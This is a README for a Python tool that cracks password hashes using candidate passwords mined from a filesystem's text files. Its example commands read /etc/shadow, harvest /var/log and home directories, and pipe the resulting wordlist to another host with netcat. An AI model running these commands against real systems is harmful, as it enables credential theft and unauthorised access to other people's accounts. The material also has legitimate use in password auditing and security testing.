 # Dave Navarro's Goatee

              .                                                        
           b   A           Here's some ASCII art of a tribal dragon    
           $b  Vb.              that I found on the Internet to set    
           '$b  V$b.                 the tone of this terrible repo.   
            $$b  V$$b.                                                 
            '$$b. V$$$$oooooooo.         ..                            
             '$$P* V$$$$$""**$$$b.    .o$$P                            
              " .oooZ$$$$b..o$$$$$$$$$$$$C                             
              .$$$$$$$$$$$$$$$$$$$$$$$$$$$b.                           
              $$$$$$$$$$$$$$$$$$$$$$$$$$$$$$                           
        .o$$$o$$$$$$$$P""*$$$$$$$$$P"""*$$$P                           
       .$$$**$$$$P"q$C    "$$$b        .$$P                            
       $$P   "$$$b  "$ . .$$$$$b.      *"                              
       $$      $$$.     "***$$$$$$$b. A.                               
       V$b   . Z$$b.  .       "*$$$$$b$$:                              
        V$$.  "*$$$b.  b.         "$$$$$                               
         "$$b     "*$.  *b.         "$$$b                              
           "$$b.     "L  "$$o.        "*"     .ooo..                   
             "*$$o.        "*$$o.          .o$$$$$$$$b.                
                 "*$$b.       "$$b.       .$$$$$*"   ""*.              
                    "*$$o.      "$$$o.    $$$$$'                       
                       "$$o       "$$$b.  "$$$$   ...oo..              
                         "$b.      "$$$$b. "$$$$$$$P*"""""             
                        . "$$       "$$$$b  "$$$$P"                    
                         L."$.      .$$$$$.  $$$$                      
          ..              $$$;      o$$$$$$  $$$$                      
       . $.l              "$$'    .$$$$$$$P  $$$P                      
     .I .$b b '.           "P   .P*""*$$$$;  $$$                       
   .$P  $$o ". ".  .        " ."      $$$$   $$;                       
  .$$;  $$$. "A "$. ".       '       o$$$P  .$P                        
 .$$$b  $$$$. *$. "$$$$o.          .$$$$P   $"                         
.$$$$$  $$$$$. "$$o."**$$$$o.'  .o$$$$P"    P                          
$$P"$$b $$$$$$o  "*$$$$boooooc$$$$$$$P"   .                            
$$  $$$."$$$"*$$.   "$$$$$$$$$$$$$$$$C  .o"                            
I"  $P"$."$$b. "*$.    "**$$$$$*"*$$$$$$$"                             
'   $  "$."$$$.   ""'              "*$$*                               
    $.   "."$$$$o        mls <---                                      
    "I       "$$$$b. .           \-------- Author of this supurb       
                "$$$b."$o.                   piece of artwork.         
                  "*$$."$$$o.                                          
                    "$$o $$$$b.                                        
                     '$$o'$$$$$b.                                      
                      '$$.'$$$**$o                                     
                       '$$.$$$. '$$                                    
                        $$; $$$o. "$.                                  
                        "$: $$ "*o  ".                                 
                     L   $$ $P    l  '.                                
                     $. .$$ $;                                         
                     ;$.$$P $                                          
                     "$$$$ P'                                          
                      $$$;:                                            
                      $$P                                              
                     o$P                                               
                     $P                                                
                     I'                                                
                     '                                                 


## Overview

This program attempts to crack hashes based on the contents of a
filesystem. It is currently pretty bad quality as I am just learning
Python.

In the future I plan on supporting more hash types besides ones
supported by crypt(), wordlist generation, and better efforts to
eliminate duplicate effort. This code actually works, but is slow. It
takes roughly 3 minutes to attempt to crack a single SHA-512 hash
against a 5kb text file. This should be used AFTER attempting to crack
hashes using John the Ripper or hashcat.

Some good paths to use this on are /home, /root, /var/www, /var/log,
/var/spool/{cron,mail,...), and /etc. In this program's current state,
it would likely take several weeks/months to work against
/. Additionally, you can collect specific files from a host, dump
router/switch configs, packet captures ran through strings, and place
them in a directory to run this tool against.

If someone makes the mistake of mentioning their passwords in a chat
program that gets logged to the hard drive, mis-types their password
into their shell, types their password into the username field of a
program that gets logged to /var/log, or adds their password somewhere
to a configuration file in plain text, this program will eventually
find it.

## How does this work?

It will recursively scan a directory for files that are not binaries
(contain no NULL characters), and read line by line, applying various
mutations to each line to generate a potential list of passwords. This
uses the entire line itself, a list of words reading character by
character from left to right, from right to left, every token
combination of every non-alphanumeric character, and each token broken
down left to right, then right to left.

To reduce CPU cost, you can specify minimum password lengths to try
and have the option to skip lines that do not score above a threshold
met by using Claude Shannon's entropy algorithm. I am currently
exploring ways to reduce duplicated combinations and to speed the
process up.

## Example usages:

### Crack /etc/shadow using contents of /home/daniel
```
./dave_navarros_goatee.py --path /home/daniel --hashfile /etc/shadow --minlength 8
```
This is the typical usage. Currently very slow, but works "quick enough"
against smaller directories.

### Generate wordlist from contents of /var/log
```
./dave_navarros_goatee.py --path /var/log --stdout >/tmp/wordlist.tmp
sort /tmp/wordlist.tmp |uniq >/tmp/wordlist.txt && rm /tmp/wordlist.tmp
```

wordlist.txt can now be transferred to a beefier rig and used with
John the Ripper, hashcat, or whatever suits your fancy. This has the
added benefit of supporting more hash types than crypt().

### Pipe output to John the Ripper
```
./dave_navarros_goatee.py --path /home --stdout | john --pipe --rules hashfile
```
This currently works great against smaller virtual machines and embedded
devices. Its kind of a bummer because either JtR doesn't support --fork with
--pipe, or I have failed to figure out how to do it properly.

This does not store a word list to the hard drive. It is also useful
for attempting to crack hashes not handled by crypt().

### Pipe over the network using netcat
```
# on receiving machine
nc -nlvp 443 >wordlist.txt


# on sending machine
./dave_navarros_goatee.py --path /home/daniel --stdout |nc ip.of.receiving.host 443
```

This is also great for smaller systems with limited resources
available or for transferring the wordlist to a beefier machine. Use
Ncat for SSL support.

